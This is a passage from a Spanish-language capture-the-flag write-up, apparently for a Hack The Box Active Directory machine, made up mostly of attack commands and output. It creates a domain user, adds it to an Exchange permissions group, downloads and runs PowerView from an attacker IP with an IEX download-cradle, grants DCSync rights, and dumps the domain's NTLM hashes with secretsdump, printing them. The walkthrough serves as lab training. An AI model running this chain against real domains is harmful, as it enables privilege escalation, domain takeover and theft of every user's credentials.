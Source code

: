 ![WriteDacl](WriteDacl.png)

![WriteDacl2](WriteDacl2.png)

Creamos un nuevo usuario y lo agregamos al grupo "Exchange Windows Permissions".

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user john password123! /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" john /add
The command completed successfully.
```

Para llevar a cabo este ataque, es necesario descargar [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) y ejecutarlo en la máquina víctima.

Entonces, procedemos a crear un servidor con Python.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Luego, descargamos y ejecutamos el script de PowerShell desde la URL atacante.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.149/PowerView.ps1')
```

Ahora podemos ejecutar los siguientes comandos para otorgar al usuario `john` el derecho **DCSync** en el dominio "**DC=htb,DC=local**".

```bash

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-SecureString 'password123!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\john', $SecPassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -PrincipalIdentity john -Credential $Cred -TargetIdentity "DC=htb,DC=local" -Rights DCSync
```

Ahora podemos utilizar el script `secretsdump.py` de Impacket, ejecutándolo como `john`, para revelar los hashes NTLM de todos los usuarios del dominio.

```bash
❯ python2 /opt/impacket-0.9.19/examples/secretsdump.py htb.local/john@10.10.10.161
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```